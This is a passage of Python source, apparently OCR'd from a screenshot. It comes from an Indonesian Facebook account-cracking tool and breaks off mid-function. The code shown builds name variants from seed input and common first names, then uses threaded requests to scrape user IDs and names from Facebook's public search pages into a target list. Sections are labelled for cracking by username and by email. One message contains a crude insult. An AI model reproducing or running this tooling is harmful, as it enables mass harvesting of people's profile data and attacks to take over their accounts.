 		print('='*51)
		print(f'Terkumpul🔥'+str(len(id)))
		print('='*51)
		setting()
	except requests.exceptions.ConnectionError:
		print(f'Sinyal kek Kontol ')
		back()
	except (KeyError,IOError):
		print(f'Pertemanan Tidak Public ')
		time.sleep(3)
		back()
		setting()
#----------------------[ CRACK USERNAME ]----------------------#
def crack_nama():
	nama = []
	custom = [" iqbal"," kami"," siska"," batam"," medan"," new"," old"," jian"," store"," tias"," rio"," lia"," farz"," marvel"," jakarta"," anisha"," juven"," der"," rika"," udin"," rayan"," tina"," tiara"," fahmi"," baili"," rima"," gadis"," dimas"," abram"," ajis"," vicky"," charlie"," piko"," billa"]
	custom2 = ["galang ","gilang ","gita ","steven ","aulia ","tiyas ","albert ","naura ","anton ","reval ","abi ","yehezkiel ","hafiz ","daniel ","angun "]
	print('='*51)
	print(f'Crack Username Satu Nama Setara Dengan 3.000 User')
	print('='*51)
	print('='*51)
	nam = input(f'Masukan Nama : ').split(",")
	print('='*51)
	for ser in nam:		
		for belakang in custom:
			id = ser+belakang
			nama.append(id)
		for depan in custom2:
			id = depan+ser
			nama.append(id)
	with tred(max_workers=5) as thread:
		for id in nama:
			thread.submit(cari_nama,f"https://mbasic.facebook.com/public/{id}?/locale2=id_ID")
	print('')
	setting()
		
def cari_nama(link):
	r = parser(ses.get(str(link)).text,'html.parser')
	for x in r.find_all('td'):
		data = re.findall('\<a\ href\=\"\/(.*?)\">\<div\ class\=\".*?\">\<div\ class\=\".*?\">(.*?)<\/div\>',str(x))
		for uid,nama in data:
			if 'profile.php?' in uid:
				uid = re.findall('id=(.*)',str(uid))[0]
			elif '<span' in nama:
				nama = re.findall('(.*?)\<',str(nama))[0]
			bo = uid+'|'+nama
			if bo in id:pass
			else:id.append(bo)
	link = r.find('a',string='Lihat Hasil Selanjutnya').get('href')
	if(link):
	  sys.stdout.write(f"\r Mengumpulkan {len(id)} Idz ...");sys.stdout.flush()
	  time.sleep(0.0000003)
	  cari_nama(link)
	else:
	     print("\r")
#-----------------[ CRACK EMAIL ]-----------------#
def crack_email():
	rc = random.choice
	rr = random.randint